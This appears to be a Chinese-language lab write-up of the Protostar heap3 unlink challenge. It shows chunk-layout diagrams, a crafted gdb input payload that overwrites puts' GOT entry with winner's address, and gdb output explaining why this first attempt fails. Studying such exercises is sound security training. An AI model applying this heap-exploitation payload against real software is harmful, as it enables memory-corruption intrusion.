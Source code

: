 ```
--------------------------|
c                         |
--------------------------|
b                         |
--------------------------|
a                         |
--------------------------|
```


#### 失败的尝试:直接将puts的got值改写为winner的地址
```
内存中数据的样子          | 
--------------------------|
prev_size [4B]            | origin_a
--------------------------|
size [4B]                 | 
--------------------------|
"a" allocated space [32B] |
--------------------------|
prev_size [4B]            | origin_b
--------------------------|
size [4B]                 | 
--------------------------|
"b" allocated space [32B] |
--------------------------|
0xfffffff8                | origin_c	,-8
--------------------------|
0xfffffffc                | 			,-4
--------------------------|
cccc                      | 通过0xfffffffc和0xfffffff8  找到的上一个prev_size
--------------------------|
cccc                      | 通过0xfffffffc和0xfffffff8  找到的上一个size
--------------------------|
redir_addr -12            | 想要更改的位置 -12		fake chunk的FD
--------------------------|
winner_addr               | 想要更改的值			fake chunk的BK
--------------------------|
Fake chunk's User Data    | fake chunk的 存放数据部分		
--------------------------|
```


在gdb中输入参数:
```
a `python -c 'print "A"*8+"\xb8\x64\x88\x04\x08\xff\xe0"+"A"*17 + "\xf8\xff\xff\xff" + "\xfc\xff\xff\xff"+"B"*8 + "\x1c\xb1\x04\x08" + "\x64\x88\x04\x08"+"\xb8\x64\x88\x04\x08\xff\xe0"'` c
```
发现puts的got已经改过来了
```bash
gdb-peda$ x/wx 0x804b128
0x804b128 <puts@got.plt>:	0x08048864
```
但是之后的代码想要在.dynsym中写入数据,从`maintenance info sections`可以看到,`0x08048864 + 0x8`这个地址是只读权限,这导致程序报错
```
gdb-peda$ maintenance info sections
Exec file:
    `/root/sploitfun/unlink/protostar/download/heap3', file type elf32-i386.
    0x8048114->0x8048127 at 0x00000114: .interp ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x8048128->0x8048148 at 0x00000128: .note.ABI-tag ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x8048148->0x804816c at 0x00000148: .note.gnu.build-id ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x804816c->0x8048234 at 0x0000016c: .hash ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x8048234->0x804829c at 0x00000234: .gnu.hash ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x804829c->0x804848c at 0x0000029c: .dynsym ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x804848c->0x804859a at 0x0000048c: .dynstr ALLOC LOAD READONLY DATA HAS_CONTENTS
    0x804859a->0x80485d8 at 0x0000059a: .gnu.version ALLOC LOAD READONLY DATA HAS_CONTENTS
```